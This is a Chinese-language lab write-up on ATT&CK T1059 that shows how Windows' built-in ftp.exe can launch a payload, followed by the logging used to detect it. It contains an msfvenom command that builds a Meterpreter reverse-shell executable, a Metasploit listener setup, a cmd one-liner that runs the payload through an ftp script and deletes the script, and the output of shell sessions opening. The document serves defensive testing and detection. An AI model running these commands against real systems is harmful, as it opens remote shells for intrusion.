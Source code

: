 # T1059-win-基于白名单Ftp.exe执行Payload

## 来自ATT&CK的描述

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

说明：Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 2003 默认位置：

C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

Windows 7 默认位置：

C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2008

### 攻击分析

#### 生成payload.exe

```bash
root@12306Br0:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f exe > payload.exe
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > set AutoRunScript migrate f
AutoRunScript => migrate f
msf5 exploit(multi/handler) > exploit
```

#### 执行payload

```cmd
echo !C:\Users\Administrator\Desktop\test\payload.exe > o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o

```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49316) at 2020-04-12 21:13:23 +0800
[*] Session ID 1 (192.168.126.146:4444 -> 192.168.126.149:49316) processing AutoRunScript 'migrate f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 2 opened (192.168.126.146:4444 -> 192.168.126.149:49317) at 2020-04-12 21:13:26 +0800
```

## 测试留痕

```bash
EventID:4688 #安全日志，windows server 2012以上配置审核策略，可对ftp命令进行记录

EventID:1 #sysmon日志
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1059:<https://attack.mitre.org/techniques/T1059/>

基于白名单Ftp.exe执行Payload:<https://www.77169.net/html/235306.html>

基于白名单的Payload:<https://blog.csdn.net/weixin_30790841/article/details/101848854>
